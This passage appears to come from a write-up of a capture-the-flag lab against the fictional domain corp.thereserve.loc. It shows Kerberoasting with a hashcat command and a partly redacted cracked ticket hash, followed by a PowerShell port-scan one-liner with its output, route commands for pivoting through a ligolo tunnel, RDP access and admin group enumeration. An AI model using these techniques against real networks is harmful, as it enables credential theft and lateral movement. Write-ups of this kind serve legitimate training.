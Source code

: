   
I got five candidates. The next step it's to try to extract the password from Kerberos tickets, since the tickets are encrypted with the password of the service account, associated with the SPN specified in the ticket request. The tickets are saved in kerberoastables.txt file, I used haschcat with the previously generated passwords list, the same used to brute-force the VPN server.

  	hashcat -a 0 -m 13100 kerberoastables.txt pwd_list

After a while I found a valid password (reused) for svcScanning user:

	$krb5tgs$23$*svcScanning$CORP.THERESERVE.LOC$corp.thereserve.loc/svcScanning*$9b49...
 	...7749a88126a66ac2:xxxxxxxxx
  
### Compromise servers
From the wrk1 workstation I used the following powershell snippet to perform a host discovery, using common windows ports: 

	1..200 | % { $a ="10.200.89.$_"; 80,443,3389 | % {$r=((new-object Net.Sockets.TcpClient).ConnectAsync("$a",$_).Wait(100));If ($r) {write-host "$a port $_ is open"}}}
		10.200.89.11 port 80 is open
		10.200.89.11 port 3389 is open
		10.200.89.12 port 80 is open
		10.200.89.13 port 80 is open
		10.200.89.21 port 3389 is open
		10.200.89.22 port 3389 is open
		10.200.89.31 port 3389 is open
		10.200.89.32 port 3389 is open
		10.200.89.100 port 3389 is open
		10.200.89.102 port 3389 is open
We found 3 new hosts .31, .32 and .100. We can proceed to add these routes to the ligolo tunnel

	ip route add 10.200.89.31/32 dev ligolo & ip route add 10.200.89.32/32 dev ligolo & ip route add 10.200.89.100/32 dev ligolo

With the <b>svcscanning</b> user I can connect through RDP to host .31 and .32, but not to the .100.
Using Remmina I connected to the host .31, I looked for the hostname: <b>server1</b>.
Exploring user privileges I found that the user is member of the local administrators, being part of the domain group Services

	net localgroup Administrators
		Alias name     Administrators
		...
		Members
		-----------------------------
		Administrator
		CORP\Domain Admins
		CORP\Services
		CORP\Tier 1 Admins
		HelpDesk
		THMSetup

 	net group Services /domain
		The request will be processed at a domain controller for domain corp.thereserve.loc.
		Group name     Services

